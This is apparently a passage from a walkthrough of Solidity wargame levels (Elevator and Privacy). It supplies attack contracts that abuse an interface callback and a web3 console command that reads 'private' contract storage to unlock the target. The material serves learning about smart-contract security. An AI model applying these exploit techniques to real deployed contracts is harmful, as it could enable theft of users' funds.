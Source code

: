 Deploy with params:<br>
- address: `contract.address` get on console window
- value: 1 ether

===> Submit level


### Elevator
`Elevator.sol` ==> create and copy content of this level.<br>
`ElevatorAttack.sol`
```
pragma solidity ^0.8.0;
import './Elevator.sol';

contract ElevatorAttack {
    bool public toggle = true;
    Elevator public target;

    constructor(address a) public payable{
        target = Elevator(a);
    }

    function isLastFloor(uint) public returns(bool) {
        toggle = !toggle;
        return toggle;
    }

    function setTop(uint _f) public {
        target.goTo(_f);
    }
}
```

Deploy with params:<br>
- address: `contract.address` get on console window

click `setTop` button with param is 15

===> submit level


### Privacy
console
```
//copy this address
await web3.eth.getStorageAt(contract.address, 5, (e,r) => {console.log(r)})
```
Copy logged address.

`Privacy.sol` ===> copy in this level
<br>`PrivacyAttack.sol`
```
pragma solidity ^0.8.0;
import './Privacy.sol';

contract PrivacyAttack {
    Privacy public target;

    constructor(address a) public payable{
        target = Privacy(a);
    }

    function unlock(bytes32 s) public {
        bytes16 k = bytes16(s);
        target.unlock(k);
    }
}
```